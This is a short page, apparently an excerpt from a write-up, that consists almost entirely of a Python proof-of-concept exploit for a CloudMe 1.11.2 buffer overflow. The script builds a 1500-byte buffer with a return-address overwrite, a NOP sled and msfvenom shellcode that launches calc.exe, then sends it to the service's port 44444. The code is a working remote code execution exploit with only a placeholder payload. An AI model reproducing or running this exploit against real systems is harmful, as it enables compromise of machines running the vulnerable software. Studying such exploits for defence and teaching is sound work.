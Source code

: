 The whole modified exploit:

```python
# Exploit Title: CloudMe 1.11.2 - Buffer Overflow (PoC)
# Date: 2020-04-27
# Exploit Author: Andy Bowden
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1112.exe
# Version: CloudMe 1.11.2
# Tested on: Windows 10 x86

#Instructions:
# Start the CloudMe service and run the script.

import socket

target = "127.0.0.1"

padding1   = b"\x90" * 1052
EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS       = b"\x90" * 30

#msfvenom -a x86 -p windows/exec CMD=calc.exe -b '\x00\x0A\x0D' -f python
payload =  b""
payload += b"\xdb\xd3\xbf\x10\x10\x1f\x4e\xd9\x74\x24\xf4\x5e"
payload += b"\x2b\xc9\xb1\x42\x83\xc6\x04\x31\x7e\x14\x03\x7e"
payload += b"\x04\xf2\xea\xb2\xcc\x70\x14\x4b\x0c\x15\x9c\xae"
payload += b"\x3d\x15\xfa\xbb\x6d\xa5\x88\xee\x81\x4e\xdc\x1a"
payload += b"\x12\x22\xc9\x2d\x93\x89\x2f\x03\x24\xa1\x0c\x02"
payload += b"\xa6\xb8\x40\xe4\x97\x72\x95\xe5\xd0\x6f\x54\xb7"
payload += b"\x89\xe4\xcb\x28\xbe\xb1\xd7\xc3\x8c\x54\x50\x37"
payload += b"\x44\x56\x71\xe6\xdf\x01\x51\x08\x0c\x3a\xd8\x12"
payload += b"\x51\x07\x92\xa9\xa1\xf3\x25\x78\xf8\xfc\x8a\x45"
payload += b"\x35\x0f\xd2\x82\xf1\xf0\xa1\xfa\x02\x8c\xb1\x38"
payload += b"\x79\x4a\x37\xdb\xd9\x19\xef\x07\xd8\xce\x76\xc3"
payload += b"\xd6\xbb\xfd\x8b\xfa\x3a\xd1\xa7\x06\xb6\xd4\x67"
payload += b"\x8f\x8c\xf2\xa3\xd4\x57\x9a\xf2\xb0\x36\xa3\xe5"
payload += b"\x1b\xe6\x01\x6d\xb1\xf3\x3b\x2c\xdf\x02\xc9\x4a"
payload += b"\xad\x05\xd1\x54\x81\x6d\xe0\xdf\x4e\xe9\xfd\x35"
payload += b"\x2b\x05\xb4\x14\x1d\x8e\x11\xcd\x1c\xd3\xa1\x3b"
payload += b"\x62\xea\x21\xce\x1a\x09\x39\xbb\x1f\x55\xfd\x57"
payload += b"\x6d\xc6\x68\x58\xc2\xe7\xb8\x3b\x8b\x67\x3a\x9c"
payload += b"\x10\xb2\xe0\xa9\xe5\xa7\x6a\x21\x55\x69\xef\xa8"
payload += b"\x0c\x07\x86\x41\xba\xa5\x39\xd2\x2d\x38\xe6\x7e"
payload += b"\xd4\xcf\x7d\x0b\x79\x40\xde\x81\xea\xcf\xaa\x4b"
payload += b"\x80\x77\x27\xb4\x2b\xb2\x9b\xc1\xd8\xa7\x51\x59"
payload += b"\x42\x5b\xfe\xfc\x0f\xf5\xa2\xa8\x86\x6d\x3e\x3a"
payload += b"\x2b\x32\xae\xab\xb9\xab\x44\x1a\x49\x54\xed\x62"

overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + payload))	

buf = padding1 + EIP + NOPS + payload + overrun 

try:
    s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((target,44444))
    s.send(buf)
except Exception as e:
    print(sys.exc_value)
```
